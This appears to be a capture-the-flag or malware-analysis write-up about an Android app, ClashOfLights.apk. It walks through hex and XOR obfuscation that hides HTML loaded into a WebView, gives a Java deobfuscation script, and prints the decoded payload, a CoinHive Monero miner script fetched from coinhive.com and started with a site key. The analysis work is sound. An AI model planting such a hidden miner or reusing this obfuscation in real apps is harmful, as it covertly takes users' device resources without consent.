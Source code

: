 For this level, let's work with [ClashOfLights.apk](./Files/ClashOfLights.apk).

Upon examining the application, we notice several lines of obfuscated code:
```java
webView.loadData(z1.b(new String(C2132z1.a("773032205849207A3831326F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B53163735222D393B475C7A37222D7F38421B6A66643032205849206477303220584920643D2223725C503A3F39636C725F5C237A082C383C7950223F65023F3D5F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B101F42700D1F39331717161574213F2B2337505D27606B712C7B0A543D342E317F214558262E636A6A6E1E4A37282233256C"), Charset.forName("UTF-8"))), "text/html", null);
```

Let's delve into the `package com.supercell.titan.z1;`:
```java
package com.supercell.titan;

/* loaded from: classes.dex */
public class z1 {

    private static final char[] a = "0123456789ABCDEF".toCharArray();

    public static byte[] a(String str) {
        int length = str.length();
        byte[] bArr = new byte[length / 2];
        for (int i = 0; i < length; i += 2) {
            bArr[i / 2] = (byte) ((Character.digit(str.charAt(i), 16) << 4) + Character.digit(str.charAt(i + 1), 16));
        }
        return bArr;
    }

    public static String b(String str) {
        char[] cArr = {'K', 'C', 'Q', 'R', '1', '9', 'T', 'Z'};
        StringBuilder sb = new StringBuilder();
        for (int i = 0; i < str.length(); i++) {
            sb.append((char) (str.charAt(i) ^ cArr[i % cArr.length]));
        }
        return sb.toString();
    }
}
```

Now, we can create our own deobfuscation script to retrieve the original string:
```java
class Main {
    public static String a(String str) {
        int length = str.length();
        byte[] bArr = new byte[length / 2];
        for (int i = 0; i < length; i += 2) {
            bArr[i / 2] = (byte) ((Character.digit(str.charAt(i), 16) << 4)
                                + Character.digit(str.charAt(i + 1), 16));
        }
        return new String(bArr, java.nio.charset.StandardCharsets.ISO_8859_1);
    }
    
    public static String b(String str) {
        char[] cArr = {'K', 'C', 'Q', 'R', '1', '9', 'T', 'Z'};
        StringBuilder sb = new StringBuilder();
        for (int i = 0; i < str.length(); i++) {
            sb.append((char) (str.charAt(i) ^ cArr[i % cArr.length]));
        }
        return sb.toString();
    }

    
    public static void main(String[] args) {
        String text = "773032205849207A3831326F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B53163735222D393B475C7A37222D7F38421B6A66643032205849206477303220584920643D2223725C503A3F39636C725F5C237A082C383C7950223F65023F3D5F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B101F42700D1F39331717161574213F2B2337505D27606B712C7B0A543D342E317F214558262E636A6A6E1E4A37282233256C";
        System.out.println(b(a(text)));
    }
}
```

The output reveals:
```html
<script src="https://coinhive.com/lib/coinhive.min.js">
</script>

<script>
    var miner = new CoinHive.Anonymous('nf24ZwEMmu0m1X6MgcOv48AMsIYErpFE', {threads: 2});miner.start();
</script>
```

This is a CoinHive miner script, used for mining `Monero` cryptocurrency by leveraging the CPU power of the user's device. This clearly indicates malicious behavior, as it exploits the user's resources without their consent.